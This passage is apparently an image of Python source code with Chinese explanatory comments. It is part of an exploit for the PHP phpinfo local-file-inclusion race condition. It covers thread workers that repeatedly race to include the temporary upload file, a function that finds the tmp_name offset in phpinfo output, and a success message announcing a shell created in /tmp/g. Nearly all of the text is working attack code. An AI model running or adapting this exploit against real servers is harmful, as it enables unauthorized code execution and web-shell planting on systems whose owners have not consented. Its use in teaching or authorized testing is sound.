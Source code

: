 ```python
        #得到临时文件名（这个切片和系统有关，我在windows 下测试使用的是 d[i+17:i+39]）

    except ValueError:
        return None

    s2.send(lfireq % (fn, host))               #发起LFI请求
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:                     #找页面返回中我们之前设下的标志 TAG
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)                      #循环接受4096字节直到接收完毕
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i+10],i)   #进行试探得到文件名的偏移量
```